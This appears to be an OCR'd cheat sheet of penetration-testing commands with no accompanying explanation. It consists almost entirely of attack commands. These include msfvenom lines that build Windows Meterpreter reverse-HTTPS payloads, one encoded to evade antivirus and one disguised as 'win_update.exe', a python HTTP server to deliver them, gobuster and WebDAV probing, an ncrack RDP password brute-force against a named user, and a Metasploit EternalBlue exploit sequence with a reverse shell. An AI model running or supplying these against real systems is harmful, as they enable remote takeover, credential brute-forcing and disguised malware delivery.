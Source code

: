 msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -e x86/shikata_ga_nai -i 10 -f exe -o payload_encoded.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -f exe -o ~/win_update.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -f psh-cmd -o payload.ps1

python3 -m http.server 8080

gobuster dir -u http://<ip> -w /usr/share/seclists/Discovery/Web-Content/iis-urls.txt -t 50 -x aspx,asp,html,htm

gobuster dir -u http://<ip> -w /usr/share/seclists/Discovery/Web-Content/common.txt -t 50 -x aspx,asp,html,htm


nmap -p 80 --script=http-webdav-scan <ip>


davtest -url http://<ip>


ncrack -v -p 3389 -U <(echo rsilva) -P wordlist_pro.txt 192.168.1.84

use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.1.100
set LHOST 192.168.1.101
exploit
set PAYLOAD windows/meterpreter/reverse_tcp

